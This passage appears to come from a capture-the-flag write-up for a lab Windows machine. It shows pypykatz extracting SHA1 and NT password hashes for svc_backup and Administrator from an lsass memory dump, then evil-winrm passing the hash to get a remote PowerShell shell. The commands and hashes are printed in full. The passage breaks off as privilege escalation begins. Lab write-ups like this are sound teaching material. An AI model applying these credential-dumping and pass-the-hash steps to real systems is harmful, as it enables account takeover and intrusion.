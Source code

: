 PS: a more clever approach would be to avoid dumping `tools/` which will take a
lot of time and space for generic binaries we do not need.

In `memory_analissy` there is a `lsass` dump.

```
$ cd memory_analysis
$ unzip lsass.zip
Archive:  lsass.zip
  inflating: lsass.DMP
```

Then we can use **pypykatz**, Python implementation of Mimikatz, to try to dump
hashes from here.

```
$ pypykatz lsa minidump lsass.DMP > lsass_dump.txt
INFO:root:Parsing file lsass.DMP
```

So we obtained those two SHA1 hashes:

```
svc_backup:463c13a9a31fc3252c68ba0a44f0221626a33e5c
Administrator:db5c89a961644f0978b4b69a4d2a2239d7886368
```

And NT hashes:

```
svc_backup:9658d1d1dcd9250115e2205d9f48400d
Administrator:7f1e4ff8c6a8e6b6fcae2d9c0572cd62
```

We can use [evil-winrm][evil-winrm] to make a pass the hash (PtH) authentication
and gain PowerShell acess:

```
$ evil-winrm -u svc_backup -H 9658d1d1dcd9250115e2205d9f48400d -i 10.10.10.192

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\svc_backup\Documents> gc ../Desktop/user.txt
0d1d70d4c5439a332577fcbc2bcbed15
*Evil-WinRM* PS C:\Users\svc_backup\Documents>
```

## Privilege Escalation of Machine : from svc_backup to root

Let's check what we can do with this account:

```
*Evil-WinRM* PS C:\Users\svc_backup\Documents> net user svc_backup
User name                    svc_backup
Full Name
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            2/23/2020 10:54:48 AM
Password expires             Never
Password changeable          2/24/2020 10:54:48 AM
Password required            Yes
User may change password     Yes

```